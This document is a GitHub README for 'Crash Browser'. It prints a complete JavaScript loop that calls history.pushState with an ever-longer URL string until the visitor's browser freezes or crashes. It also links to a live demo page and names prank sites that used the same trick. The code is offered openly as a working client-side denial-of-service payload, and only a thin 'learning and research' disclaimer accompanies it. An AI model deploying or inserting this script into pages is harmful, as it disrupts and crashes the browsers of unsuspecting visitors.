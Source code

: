 # Crash Browser

Simple JS script that overloads the browser with a huge URL.

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function or crash.

```js
var total = "";
for( var i = 0; i < 10000000000000; i++ ) {
total += i.toString();
history.pushState(0,0, total );
}
```

## Need for Myriad

No one is ever gonna *need* it (To Say Nothing Of The Naughty Ones)

This script was used in the mischievous websites like [crashsafari.com](https://crashsafari.com) (dead), [crashchrome.com](http://crashchrome.com) (dead), etc.

## Demo

Visit [this](https://fuk.netlify.app) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
